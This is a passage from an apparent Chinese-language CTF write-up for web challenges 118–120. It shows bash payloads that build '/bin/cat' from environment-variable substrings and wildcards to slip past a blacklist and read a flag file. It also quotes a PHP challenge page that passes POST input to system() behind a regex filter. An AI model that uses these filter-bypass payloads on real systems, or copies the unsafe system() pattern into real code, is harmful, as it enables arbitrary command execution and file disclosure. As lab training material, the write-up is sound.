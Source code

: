 ````
```bash
${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}} ?${PATH:${#RANDOM}:${#SHLVL}}??.???

#其他师傅
${PATH:~A}${PATH:${#TERM}:${SHLVL:~A}} ????.???
```



## web119~通配符构造 /bin/cat

环境界面和上题一样，经测试在上题的基础上多过滤了 `PATH` ,那么这个系统变量肯定是不能用了。

cat 命令实质上是在 `/bin/cat` 那么我们利用其它命令构造他，

题目wp应该是与题目环境即容器名称有关。

```bash
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

这里 `$HOSTNAME` 就各机器都不同。

但是我自己构造的在题目机器上又执行不了。

```bash
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#RANDOM}:${#SHLVL}}

${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HISTSIZE}:${#SHLVL}}

```

旨在构造 `/bin/cat`  利用通配符 `/???/??t` .

## web120~通配符构造 /bin/cat

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

又增加过滤了 `HOME` 

自己构造的paylaod在这里不行，显示太长

```bash
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${PWD:${RANDOM:~A}}
````